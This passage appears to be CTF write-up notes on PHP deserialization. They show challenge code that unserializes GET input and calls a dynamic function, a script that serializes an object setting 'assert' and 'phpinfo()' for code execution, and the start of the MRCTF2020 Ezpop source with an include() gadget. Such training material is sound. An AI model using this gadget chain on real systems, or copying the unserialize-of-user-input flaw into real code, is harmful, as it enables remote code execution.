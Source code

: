 ```php
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);

```

反序列化
```php
<?php
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "phpinfo()";
        $this->b = "assert";
   
}
}
$c = new HelloPhp();

echo serialize($c);

?>
```

---
# **[MRCTF2020]Ezpop
- 反序列化

```ph
Welcome to index.php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
```